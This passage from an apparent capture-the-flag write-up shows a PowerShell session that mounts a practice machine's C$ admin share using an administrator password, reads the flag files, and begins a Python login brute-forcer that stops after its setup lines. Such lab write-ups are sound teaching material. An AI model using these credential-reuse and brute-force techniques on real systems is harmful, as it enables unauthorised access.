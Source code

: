     PS C:\Users\Administrator\Documents>whoami
    bart\administrator



#### net use

Just gets access to the filesystem, but that's all that is needed to get
the flags:



    PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
    The command completed successfully.

    PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> x:
    PS X:\> cd users\administrator\desktop
    PS X:\users\administrator\desktop> ls


        Directory: X:\users\administrator\desktop


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       11/02/2018     12:51             32 root.txt



### user.txt and root.txt

With admin shell, can grab both flags:



    PS C:\Users\Administrator\Documents> cat C:\users\h.potter\user.txt
    625b6c7a...
    PS C:\Users\Administrator\Documents> cat C:\users\Administrator\Desktop\root.txt
    0074a38e...



## Beyond Root

### brute forcer source

`brute_monitor_login.py`:



    #!/usr/bin/env python3

    import re
    import requests
    import sys
    from multiprocessing import Pool


    MAX_PROC = 50
    url = "http://monitor.bart.htb/"
    username = "harvey"
